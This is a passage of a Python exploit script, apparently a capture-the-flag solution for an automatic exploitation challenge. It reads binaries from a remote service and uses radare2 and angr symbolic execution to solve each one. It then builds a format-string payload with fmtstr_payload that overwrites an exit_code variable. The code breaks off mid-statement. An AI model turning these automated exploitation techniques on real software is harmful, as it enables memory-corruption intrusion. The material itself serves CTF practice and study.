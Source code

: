 ```py
import r2pipe

io = start()

io.sendlineafter(b"Press enter when you're ready for the first binary.\n", b"")

while True:
    vuln = b""

    while True:
        line = io.recvline()

        if len(line) == 1:
            break

        dump = line.split()[1:9]

        for i in dump:
            vuln += unhexlify(i)

    f = open('./vuln', 'wb')
    f.write(vuln)
    f.close()

    exe = context.binary = ELF('vuln')

    io.recvuntil(b"Binary should exit with code ")
    code = int(io.recvuntil(b"\n", drop=True))

    r = r2pipe.open(exe.path)
    r.cmd('aaa')
    ret = r.cmdj('pdfj @ sym.permute')['ops'][-1]['offset']

    p = angr.Project(exe.path)

    payload_chars = [claripy.BVS("byte_%d" % i, 8) for i in range(0x200)]
    payload = claripy.Concat(*payload_chars + [claripy.BVV(b'\n')])
    payload_addr = 0

    s = p.factory.call_state(exe.sym['permute'], payload_addr,
            add_options=set.union(
                angr.options.unicorn,
                {
                    angr.options.LAZY_SOLVES,
                    angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY,
                    angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS,
                }))

    s.memory.store(payload_addr, payload)

    sim = p.factory.simgr(s)

    sim.explore(find=ret)

    fmt = fmtstr_payload(8, {exe.sym['exit_code']: code})

    payload_in = b""

    if sim.found:
        sol = sim.found[0]

        payload_out = sol.memory.load(
                payload_addr,
```
